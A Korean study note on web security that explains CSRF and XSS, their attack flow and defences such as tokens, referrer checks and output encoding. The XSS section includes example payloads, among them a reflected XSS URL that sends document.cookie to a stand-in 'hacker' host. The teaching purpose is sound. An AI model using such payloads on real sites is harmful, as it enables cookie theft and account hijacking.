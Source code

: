# **CSRF & XSS**

<br>

## **Cross Site Request Forgery; CSRF**

- 웹사이트 취약점 공격
- 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 하는 공격
- 자동 로그인이 되어있는 경우 로그인된 사용자의 권한을 사용하는 방식

<br>

### **_공격 방식_**

1. 공격자는 CSRF 스크립트가 포함된 게시물을 전송

2. 관리자는 공격자가 등록한 CSRF 스크립트가 포함된 게시물을 확인

3. 게시물을 열람하면 **관리자의 권한**으로 공격자가 원하는 CSRF 스크립트 요청 발생

4. 스크립트가 실행되어 관리자 및 사용자의 피해 발생

<br>

### **_방어 기법_**

- **Referrer 체크**
  - 백앤드에서 요청의 referrer를 확인하여 도메인이 일치하는지 검증
  - 일반적인 경우 referrer 검증만으로 대부분의 CSRF 공격 방어 가능

- **Security Token 사용**

  - Referrer 검증이 불가할 때의 대안
  - 서버에서 Hash로 암호화된 token을 발급
  - 사용자는 매 요청마다 token을 함께 보내어 서버가 검증

- **Double Submit Cookie 검증**

  - Security token의 한 종류
  - 세션을 사용할 수 없는 환경에서 사용
  - JS에서 타 도메인의 쿠키 값을 확인/수정하지 못하는 것을 이용한 기법
  - token을 요청 파라미터와 헤더에 저장하여 서버로 전송
  - 서버에서 쿠키와 파라미터의 토큰 값이 일치하는지 검사

- **추가인증 수단 사용**
  - 추가 인증 수단을 거쳐 테스트를 통과하지 못하면 요청 거부
  - ex) CAPTCHA (구글 그림 선택, 그림에 보이는 글씨 쓰기), 2차 비밀번호

---

<br><br>

## Cross Site Scripting; XSS
- 웹 애플리케이션 취약점 공격
- 관리자가 아닌 권한 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법
- 사용자로부터 입력받은 값을 제대로 검사하지 않고 사용할 경우 나타남
- 해커가 사용자의 쿠키, 세션 정보를 탈취하거나 자동으로 비정상적인 기능을 수행하게 함
- 시스템 관리자 권한을 탈취하거나 악성 코드 다운로드


<br>

### **_공격 방식_**
- Persistent(Stored) XSS
  - 지속적으로 피해를 입히는 XSS 공격
  - 해커가 XSS 취약점이 있는 곳에 악성 스크립트 삽입
  - 악성 스크립트가 DB에 저장
  - 악성 스크립트가 삽입된 페이지를 열람한 사용자는 쿠키를 탈취당하거나 다른 사이트로 리다이렉션 되는 공격 받음

<br>

- Reflected XSS
  - 서버가 입력 받은 값을 포함해 응답할 때 악성 스크립트 실행
  - 주로 URL등을 클릭하게 유도하여 클릭 시 악성 스크립트 실행되며 공격
  - 예시 공격 코드 `http://testweb?search=<script>location.href("http://hacker/cookie.php?value="+document.cookie);</script>`

<br>

- DOM based XSS
  - 사용자가 악의적인 스크립트가 포함된 URL을 요청하게 되어 브라우저를 해석하는 단계에 발생하는 공격 
  - 스크립트에 의해 클라이언트 측 코드가 원래 의도와 다르게 실행
  - 다른 공격과 다른 점은 서버측에서 탐지가 어려움
    - #이라는 특수문자를 사용하면 서버에 전송되지 않기 때문
    - `http://www.some.site/page.html#defaiult=<script>alert(document.cookie)</script>`


<br><br>

### **_방어 기법_**
- 데이터 입력 전에 데이터 길이, 형식 등 검사
- 사용자가 입력한 값 유효성 검증
  - 입력 값 제한
    - ex) page 값을 숫자만으로 허용
  - 입력 값 치환
    - \<script\>를 문자 참조로 필터링하고 서버에서 브라우저로 전송 시 문자를 인코딩
    - ex) '<'값을 '\&lt;'로 치환 (사용자는 \<script\>로 보이지만 HTML문서에서는 스크립트로 해석 X)
- 스크립트 영역에 출력 자제
  - 이벤트 핸들러 영역에 스크립트가 삽입되는 경우 보호기법을 우회할 수 있으므로 사용자 입력을 출력하는 것을 최대한 자제
- PLURA XSS 필터 사용
  - 필터 사용 시 XSS 공격 발생하면 공격자의 IP를 차단함
- 웹 방화벽 사용
  - 웹 방화벽은 웹 공격에 특화되어 XSS공격뿐만 아니라 각종 Injection 공격을 방어


---

<br><br>

## CSRF와 XSS의 차이점
||XSS|CSRF|
|:---:|:---:|:---:|
|공격대상|Client|Server|

- XSS는 사이트변조나 백도어를 통해 클라이언트에 대한 악성공격
- CSRF는 요청을 위조하여 사용자의 권한을 이용해 서버에 대한 악성공격
